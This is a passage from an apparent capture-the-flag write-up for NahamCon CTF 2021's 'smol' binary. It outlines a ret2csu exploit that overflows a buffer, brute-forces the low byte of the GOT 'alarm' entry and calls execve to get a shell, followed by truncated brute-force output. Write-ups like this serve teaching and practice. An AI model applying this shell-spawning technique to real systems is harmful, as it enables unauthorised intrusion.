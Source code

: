 This will loop over all 256 values until there's a shell.

> For various reasons this was easier to develop and test locally with `socat`, mostly to deal with similar conditions for error checking.

For each attempt:

1. Send the payload and overflow the buffer with our attack.  Then sleep .1 seconds (network lag, et al).
2. Send the one byte the first _ret2csu_ is waiting for to write to the LSB of GOT `alarm`.
3. Send the `/bin/sh\0` + padding for the 2nd _ret2csu_.
4. The 3rd _ret2csu_ should just execute after the 2nd has received its input.  If all is well, `execve` was called.
5. Send `echo shell` to test if there is indeed a shell there.
6. Check twice for a reply, since on some CTFs the first line back may be an `sh` error.  Do NOT use `recvuntil` or it will block for 10 seconds (you can shorten this).  It's faster the `recvline` way.
7. Get a shell, get a flag.

Output:

```bash
# ./exploit.py REMOTE=1
[*] '/pwd/datajerk/nahamconctf2021/smol/smol'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[!] testing b=0x0
[!] testing b=0x1
[!] testing b=0x2
[!] testing b=0x3
[!] testing b=0x4
[!] testing b=0x5
[!] testing b=0x6
[!] testing b=0x7
[!] testing b=0x8
[!] testing b=0x9
[!] testing b=0xa
[!] testing b=0xb
[!] testing b=0xc
[!] testing b=0xd
[!] testing b=0xe
[!] testing b=0xf
[!] testing b=0x10
[!] testing b=0x11
[!] testing b=0x12
[!] testing b=0x13
[!] testing b=0x14
[!] testing b=0x15
[!] testing b=0x16
[!] testing b=0x17
[!] testing b=0x18
[!] testing b=0x19
[!] testing b=0x1a
[!] testing b=0x1b
[!] testing b=0x1c
[!] testing b=0x1d
[!] testing b=0x1e
[!] testing b=0x1f
[!] testing b=0x20
[!] testing b=0x21
[!] testing b=0x22
[!] testing b=0x23
[!] testing b=0x24
```